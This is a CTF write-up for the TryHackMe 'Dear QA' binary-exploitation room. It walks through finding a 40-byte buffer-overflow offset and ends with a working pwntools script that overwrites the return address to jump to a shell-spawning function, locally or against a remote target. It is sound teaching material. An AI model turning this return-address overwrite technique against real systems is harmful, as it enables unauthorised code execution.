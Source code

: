```yaml
---
title: "Dear QA - TryHackMe CTF Write-up"
classes: wide
header:
  teaser: /assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/logo.png
ribbon: red
description: "We try buffer overflow directly, because why not? After checksec we can decide our attacking vector...."
categories:
  - Binary Exploitation
---
```


CTF link: 

[Dear QA - Tryhackme](https://tryhackme.com/room/dearqa)

We try buffer overflow directly, because why not? After checksec we can decide our attacking vector.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled.png)

NX disabled, easy one. Just find the offset and execute shellcode or we can check if there a function gives us shell directly.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%201.png)

When we overflow buffer we see that  “aaal” overwritten on return address. Offset is 44-4= 40 because of “aaal” is detected when “l” appears, “l” is located at 44 but “aaal” located at 40.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%202.png)

We found a function gives us shell, our attack vector is “buffer overflow + execute vuln function“

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%203.png)

There is something wrong with this machine, we can execute code we can not get output. Okey we can open reverse shell and use it. But our exploit succeed.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%204.png)

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%205.png)

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './DearQA.DearQA'
binary = context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)
io = start()

exploit = b""
exploit += b"\x90"*40
exploit += p64(binary.sym['vuln'])

io.recvuntil(b"name: ")
io.sendline(exploit)

io.interactive()
```
